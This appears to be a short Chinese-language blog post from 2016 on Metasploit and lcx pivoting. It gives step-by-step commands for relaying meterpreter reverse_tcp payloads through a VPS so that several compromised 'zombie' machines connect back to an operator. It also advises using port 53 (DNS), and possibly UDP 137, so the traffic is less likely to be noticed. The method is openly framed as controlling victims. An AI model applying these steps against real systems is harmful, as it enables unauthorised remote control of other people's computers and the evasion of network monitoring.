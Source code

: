 ```yaml
---
layout:     post
title:      msf的两种内网间连接方式及多重转发
date:       2016-04-15
summary:    msf and lcx
categories: web
tags:
 - web
 - msf
 - lcx
---
```


msf的两种内网间连接方式及多重转发   download:<a href="https://github.com/3xp10it/msf-lcx/raw/master/msf%26lcx/msf%E7%9A%84%E4%B8%A4%E7%A7%8D%E5%86%85%E7%BD%91%E9%97%B4%E8%BF%9E%E6%8E%A5%E6%96%B9%E5%BC%8F%E5%8F%8A%E5%A4%9A%E9%87%8D%E8%BD%AC%E5%8F%91.doc"> `here`</a>

#### update:2016-05-17 
<font color="red">实现meterpreter payload经过vps上lcx中转后的多个肉鸡上线</font>
<img src="https://raw.githubusercontent.com/3xp10it/pic/master/msf-1.png">

    step1-->vps:
            lcx -listen 300 53
    step2-->主控端pc:
            start msf
            start a listener,meterpreter/bind_tcp,rhost=vps's ip,lhost=300
    step3-->victim1:
            run 53.exe(a meterpreter/reverse_tcp payload exe,lhost=vps's ip,lport=53)

    !!!!!!till now!!!!!!:
        victim1 will connect back successfully,but if I want victim2 connect back successfully after upon actions,found it fail after victim2 run 53.exe

    !!!!!!solution!!!!!!:
    step4-->
        victim2:run53.exe
        主控端pc:start a listener again like before
        (after run 53.exe on victim2,start a listener again like before.)
    
#### update:2016-11-15

上面用到的53端口比较好用[53:dns]
tk的badtunnel中用的udp137端口可能更好用,待尝试
